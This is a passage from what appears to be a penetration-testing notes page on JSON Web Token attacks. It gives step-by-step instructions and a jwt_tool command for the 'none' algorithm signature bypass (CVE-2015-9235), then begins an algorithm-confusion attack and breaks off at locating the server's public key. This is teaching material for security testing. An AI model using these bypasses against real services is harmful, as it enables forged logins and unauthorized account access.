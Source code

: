 Other algorithms, such as <mark style="color:red;">**RS256 (RSA + SHA-256)**</mark> use an "**asymmetric**" key pair. This consists of a private key, which the server uses to sign the token, and a mathematically related public key that can be used to verify the signature.

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

As the names suggest, the private key must be kept secret, but the public key is often shared so that anybody can verify the signature of tokens issued by the server.

**'none' Algorithm (CVE-2015-9235):**

```bash
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
4. Change "alg:" to None, none, NONE, nOnE "alg:none"
		{
		  "alg": "none",
		  "typ": "JWT"
		}
5. Change the Payload and edit the signature to empty
		Signature = ""
6. Forward the Request. Done!

OR 
python3 jwt_tool.py JWT_HERE -X a
If the page returns valid then you have a bypass - go tampering.
```

### **JWT authentication bypass via algorithm confusion**

\


**Step 1 - Obtain the server's public key:**

* Servers may expose their public keys as JSON Web Key (JWK) objects through endpoints like <mark style="color:red;">**`/jwks.jso`**</mark>`n` or <mark style="color:red;">**`/.well-known/jwks.json`**</mark>.
